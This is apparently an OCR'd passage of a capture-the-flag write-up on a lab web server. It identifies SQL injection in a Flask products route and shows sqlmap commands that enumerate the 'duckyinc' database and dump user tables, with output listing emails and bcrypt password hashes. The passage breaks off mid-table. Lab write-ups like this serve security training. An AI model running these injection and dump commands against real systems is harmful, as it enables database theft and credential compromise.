 ```python
    return render_template('500.html', error=e), 500


if __name__ == "__main__":
    app.run('0.0.0.0')
```

In the products fuction , we know it have sqli exploit. Because this use sql syntax directly, and it not any proctect.  
When it comes to sqli, we can use sqlmap to auto exploit, first we can check database.  
`sqlmap -u http://10.10.68.32/products/1 --current-db --batch`  
```
[06:31:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx
back-end DBMS: MySQL >= 5.0.12
[06:31:01] [INFO] fetching current database
current database:    'duckyinc'
[06:31:01] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 68 times, 405 (Method Not Allowed) - 1 times
[06:31:01] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.68.32'

[*] shutting down at 06:31:01
```  

we got duckyinc db, next we can retrieve tables and schema.  
`sqlmap -u http://10.10.68.32/products/1 -D duckyinc --tables --batch`  
```
Database: duckyinc
[3 tables]
+-------------+
| system_user |
| user        |
| product     |
+-------------+

[06:36:05] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.68.32'
```   
`sqlmap -u http://10.10.68.32/products/1 -T system_user --dump --batch`  
```
Database: duckyinc
Table: system_user
[3 entries]
+----+----------------------+--------------+--------------------------------------------------------------+
| id | email                | username     | _password                                                    |
+----+----------------------+--------------+--------------------------------------------------------------+
| 1  | sadmin@duckyinc.org  | server-admin | $2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a |
| 2  | kmotley@duckyinc.org | kmotley      | $2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa |
| 3  | dhughes@duckyinc.org | dhughes      | $2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK |
+----+----------------------+--------------+--------------------------------------------------------------+
```  
`sqlmap -u http://10.10.68.32/products/1 -T user --dump --batch`  
```
Database: duckyinc
Table: user
[10 entries]
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
```